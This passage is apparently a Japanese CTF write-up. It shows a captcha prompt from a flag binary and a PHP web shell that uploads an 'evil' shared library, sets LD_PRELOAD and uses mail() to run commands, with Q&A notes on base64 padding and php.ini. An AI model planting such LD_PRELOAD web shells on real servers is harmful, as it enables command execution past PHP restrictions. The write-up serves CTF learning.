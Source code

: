 ## captcha
まだまだ問題は終わらない。get_flagを実行するとcapchaがでてきて入力を待っている。
```
// /get_flag

Please solve this little captcha:
2887032228 + 1469594144 + 3578950936 + 3003925186 + 985175264
11924677758 != 0 :(
```

足し算の結果が問われているので自動で解答を出すプログラムを書く必要がある。これを解くとようやくflagが手に入る。

最終的にshell.waniに書く内容は下のようになる
```php
<?php

// Upload the solver and shared library
move_uploaded_file($_FILES['captcha_solver']['tmp_name'], '/tmp/captcha_solver');
move_uploaded_file($_FILES['evil']['tmp_name'], '/tmp/evil_lib');

// Set the captcha_solver as executable
putenv('LD_PRELOAD=/tmp/evil_lib');
putenv("_evilcmd=chmod +x /tmp/captcha_solver");
mail('a','a','a');

// Run the captcha solver
putenv("_evilcmd=cd / && /tmp/captcha_solver");
mail('a','a','a');

// Print output
echo file_get_contents('/tmp/_0utput.txt');
?>
```

## 疑問
* Dockerで動かしているapacheのphp設定はどこに書けばよいのか？
> phpの設定は普通php.iniに書く
* base64エンコードがphp部分にだけ行われているがこれで良いのか？
> phpのパーサは<?php ?>で囲まれた部分のみを評価するのでOK
* 送信したファイルがphpとして実行されるとき、先頭の数バイトに書かれている文字はエラーにならないのか？
> 上と同様の理由でOK
* 解答コードに含まれている`AA`の文字は何か？
> base64のデコードがうまく行くようにバイトの数を調節している。詳しくは下へ
* なぜmail関数を使うのか、他の関数ではだめなのか？
> 他の関数でも良い。上書きすべきCの関数が分かっていれば。

### Base64
base64とはその名の通り64の文字を使うエンコードの方法。エンコード方法は特に複雑ではない。
wikipediaの図がとてもわかり易い。

https://en.wikipedia.org/wiki/Base64
